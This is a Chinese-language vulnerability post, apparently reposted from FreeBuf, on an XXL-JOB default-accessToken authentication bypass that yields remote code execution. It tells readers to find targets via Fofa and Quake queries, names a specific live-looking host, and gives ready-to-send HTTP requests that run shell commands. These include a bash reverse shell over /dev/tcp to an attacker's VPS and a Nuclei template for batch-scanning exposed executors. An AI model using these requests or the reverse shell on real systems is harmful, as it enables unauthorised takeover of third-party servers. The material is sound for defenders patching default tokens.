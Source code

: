 #  XXL-JOB默认accessToken身份绕过RCE漏洞   
 船山信安   2024-12-17 16:00  
  
XXL-JOB 是一款开源的分布式任务调度平台，用于实现大规模任务的调度和执行。XXL-JOB 默认配置下，用于调度通讯的 accessToken 不是随机生成的，而是使用 application.properties 配置文件中的默认值。在实际使用中如果没有修改默认值，攻击者可利用此绕过认证调用 executor，执行任意代码，从而获取服务器权限。经分析和研判，该漏洞利用难度低，可导致远程代码执行。  
## 漏洞复现  
  
步骤一：在Fofa中搜索以下语法并随机确定要进行攻击测试的目标....  
```
# 搜索语法 fofa "invalid request, HttpMethod not support" && port="9999" # 搜索语法-360Quake html_hash: "1b5af7109cb2b269eb02ba1ef4629bd8" # 检测目标 http://uat.cxmssc.joydigitseniorliving.com:9999
```  
  
步骤二：开启代理并打开BP对其首页进行抓包拦截....修改请求包内容。返回{"code":200}且DNSlog存在访问记录，即存在漏洞。  
```
POST /run HTTP/1.1 Host: ip User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36 Connection: close Content-Length: 376 Content-Type: application/json XXL-JOB-ACCESS-TOKEN: default_token Accept-Encoding: gzip { "jobId": 181584, "executorHandler": "demoJobHandler", "executorParams": "demoJobHandler", "executorBlockStrategy": "COVER_EARLY", "executorTimeout": 0, "logId": 187270, "logDateTime": 116989791110, "glueType": "GLUE_SHELL", "glueSource": "ping x.x.x.x", "glueUpdatetime": 116989791110, "broadcastIndex": 0, "broadcastTotal": 0 }
```  
  
每次发送可以把jobId值改一下  
  
步骤三：VPS监听一个端口，使用命令即可反弹shell。  
```
POST /run HTTP/1.1 Host: ip User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36 Connection: close Content-Length: 405 Content-Type: application/json XXL-JOB-ACCESS-TOKEN: default_token Accept-Encoding: gzip { "jobId": 183125, "executorHandler": "demoJobHandler", "executorParams": "demoJobHandler", "executorBlockStrategy": "COVER_EARLY", "executorTimeout": 0, "logId": 187270, "logDateTime": 116989791110, "glueType": "GLUE_SHELL", "glueSource": "/bin/bash -i >& /dev/tcp/ip/port 0>&1", "glueUpdatetime": 116989791110, "broadcastIndex": 0, "broadcastTotal": 0 }
```  
## 批量脚本  
```
id: xxl-job-executor-default-accesstoken-rce info: name: XXL-JOB默认accessToken身份绕过RCE author: wuha severity: high description: XXL-JOB 默认 accessToken 身份绕过，可导致 RCE metadata: max-request: 1 verified: true fofa-query: app="XXL-JOB" tags: xxl-job,rce variables: randjobid: "{{rand_int(999,999999)}}" datetime: '{{date_time("%Y-%M-%D %H:%m:%s")}}' unix_time: '{{date_time("{{datetime}}",unix_time())}}' http: - raw: - | @timeout: 25s POST /run HTTP/1.1 Host: {{Host}}:9999 XXL-JOB-ACCESS-TOKEN: default_token Content-Type: application/json { "jobId": {{randjobid}}, "executorHandler": "demoJobHandler", "executorParams": "demoJobHandler", "executorBlockStrategy": "COVER_EARLY", "executorTimeout": 0, "logId": {{randjobid}}, "logDateTime": {{unix_time}}, "glueType": "GLUE_SHELL", "glueSource": "ping {{Host}}.{{randjobid}}.{{interactsh-url}}", "glueUpdatetime": {{unix_time}}, "broadcastIndex": 0, "broadcastTotal": 0 } req-condition: true matchers-condition: and matchers: - type: word part: interactsh_protocol # Confirms the DNS Interaction words: - "dns"</code></pre> <span class="cke_reset cke_widget_drag_handler_container"><img class="cke_reset cke_widget_drag_handler" data-cke-widget-drag-handler="1" height="15" role="presentation" src="data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==" title="点击并拖拽以移动" width="15">﻿
```  
  
转自  https://www.freebuf.com/vuls/416273.html  
  
